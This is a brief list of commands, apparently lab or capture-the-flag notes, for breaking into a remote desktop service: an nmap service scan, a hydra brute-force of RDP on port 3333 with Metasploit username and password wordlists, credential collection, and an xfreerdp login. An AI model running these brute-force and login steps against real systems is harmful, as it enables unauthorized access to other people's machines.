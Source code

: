 

- nmap -sV IP
- hydra -L /usr/share/metasploit/data/wordlists/common_users.txt -P /UNIX+PASSWRDS rdp://IP -s 3333
- collect creds 
- xfreerdp /u:user /p:password /v:IP:port 